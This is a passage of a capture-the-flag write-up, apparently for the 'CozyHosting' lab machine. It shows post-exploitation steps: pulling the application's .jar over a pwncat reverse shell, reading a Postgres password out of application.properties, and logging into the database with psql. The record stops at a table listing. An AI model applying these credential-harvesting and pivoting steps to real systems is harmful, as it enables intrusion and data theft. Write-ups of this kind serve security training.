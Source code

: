 ![reverse-shell-success](/img/cozyhosting_img/reverse-shell-success.png)

We can copy the `.jar` file from the remote machine to ours to browse it's filesystem; I assume this is what the HTTP service uses as its designated file system (Spring Boot is a Java-based application), though I've never developed web services with Java, though `JAR`, being a contraction of "Java archive", can be extracted with an archive utility into a (partially) readable filesystem - though we aren't performing a decompilation, so we won't get 100% readable source.

Regardless, we will download and extract the archive:

```bash
(remote) app@cozyhosting:/app$ ls -la
total 58856
drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
-rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
(remote) app@cozyhosting:/app$
(local) pwncat$ download cloudhosting-0.0.1.jar .
cloudhosting-0.0.1.jar ... 100.0% • 60.3/60.3 MB • 2.3 MB/s • 0:00:00[06:55:08] downloaded 60.26MiB in 27.64 seconds
```

Going through them by hand, the files within are *mostly* readable as is - enough to see Postgres credentials in the `application.properties` file, at least:

```toml
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled=true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR

```

## Privilege escalation

Going back to our `ssh` session, we can connection to the Postgresql database to see what might be available to us. I've never used Postgres like this before, so it was a little cursed, but I ultimately got there:

`$ (remote) app@cozyhosting:/app$ psql -h localhost -U postgres`

```sql
postgres=# \\\\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# \\\\c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \\\\d
              List of relations
```